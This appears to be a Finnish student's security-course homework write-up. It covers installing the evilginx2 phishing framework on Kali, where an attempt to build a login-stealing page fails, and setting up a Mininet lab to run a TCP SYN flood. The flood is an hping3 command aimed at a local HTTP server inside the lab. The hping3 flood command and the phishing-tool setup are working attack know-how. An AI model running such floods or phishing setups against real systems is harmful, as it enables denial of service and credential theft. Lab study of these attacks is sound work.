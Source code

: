 ## h5 kotitehtävät 

# a) Tutustu seuraavaan työkaluun https://github.com/kgretzky/evilginx2Vastaa seuraaviin kysymyksiin: Asensitko työkalun, jos asensit niin kirjoita miten sen teit .Mitä teit työkalun kanssa? Onnistuitko huijaamaan liikennettä

Aloitin lataamalla evilginx2 kalille:

    sudo apt-get install evilginx2


![image](https://github.com/user-attachments/assets/9dc6392e-a99f-4015-9a95-2e0ceb0fad2a)

Ohjelman avaaminen 

    sudo evilginx2


![2](https://github.com/user-attachments/assets/a10f2cdf-8a82-445c-ab01-466dbd11df05)

lähdin etsimään miten evilginx2 voi testata paikallisesti löysin videon https://www.youtube.com/watch?v=z5gLXmXIyH8&t=2s&ab_channel=Cybertech-Arena ja https://www.youtube.com/watch?v=sZ22YulJwao&t=2s&ab_channel=JohnHammond


Yritin luoda huijaus sivuston jonka kautta olisin saanut esim. kirjautumis tietoja mutta en saanut sitä toimimaan.



# b) Luo ympäristö, jossa voit tehdä TCP SYN-Flood hyökkäyksen. Kirjoita miten loit mininet ympäristön ja miten toteutit hyökkäyksen.

Asensin mininetin, hping3 , xterm ja python3 kalilleni:

        sudo apt install mininet hping3 xterm python3



Tämän jälkeen käynnistin sen:

        sudo mn --topo single,3 --mac --switch ovsk --controller remote

Sain erroria openvswitchistä jonka jälkeen asensin sen uudelleen ja laitoin päälle:

![1](https://github.com/user-attachments/assets/fc7685ab-b3d8-4584-b2d9-05d7b8c318a1)

        sudo apt install openvswitch-switch
        sudo service openvswitch-switch start

Tämän jälkeen avataan xtermillä h1-h3


![term](https://github.com/user-attachments/assets/c927f203-e3cc-49f1-a7ba-cdf4fddf43e6)


avataan http palvelin h2 : 

![image](https://github.com/user-attachments/assets/0791f9e3-e31e-4dd3-830a-4b95bd2fd221)



käynnistetään hyökkäys h1:stä h2:seen : 

    hping3 -S --flood --rand-source -p 80 10.0.0.2  

![image](https://github.com/user-attachments/assets/033d44d2-985f-462b-af2f-b57ec2dbb578)



1. Aluksi loin mininet-ympäristön
2. H2 HTTP-palvelin päälle
3. H1 suorittaa TCP SYN-flood -hyökkäyksen

wireshark:



References:


https://github.com/yudasm/WHfB-o365-Phishlet

https://www.youtube.com/watch?v=sZ22YulJwao&t=2s&ab_channel=JohnHammond

https://www.youtube.com/watch?v=z5gLXmXIyH8&t=2s&ab_channel=Cybertech-Arena

https://www.firewall.cx/tools-tips-reviews/network-protocol-analyzers/performing-tcp-syn-flood-attack-and-detecting-it-with-wireshark.html

https://clouddocs.f5.com/training/community/firewall/html/archive/archive1/lab3/3a-03.html

https://nccs.gov.in/public/events/DDoS_Presentation_17092024.pdf
